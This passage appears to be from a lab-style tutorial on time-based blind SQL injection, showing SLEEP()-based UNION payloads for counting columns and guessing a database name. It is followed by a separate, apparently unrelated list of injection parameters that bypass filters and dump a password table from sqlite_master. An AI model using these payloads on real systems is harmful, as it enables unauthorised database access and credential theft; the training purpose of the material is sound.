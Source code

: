A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 

  

So, for example, when trying to establish the number of columns in a table, you would use the following query:

  

`admin123' UNION SELECT SLEEP(5);--`

  

If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

  

`admin123' UNION SELECT SLEEP(5),2;--`

This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns.

  

You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the **UNION SELECT** statement.

If you're struggling to find the table name, the below query should help you on your way:

  
`referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`



score=0'&ineq=a
score=95&ineq=<>?--a
score=100&ineq=>?/**/or/**/1=1--a
score=100&ineq=>?/**/union/**/select/**/name,/**/sql,/**/0,/**/name/**/from/**/sqlite_master--a
score=100&ineq=>?/**/union/**/select/**/password,/**/password,/**/userid,/**/password/**/from/**/s3ekr17_passwords/**/order/**/by/**/userid--x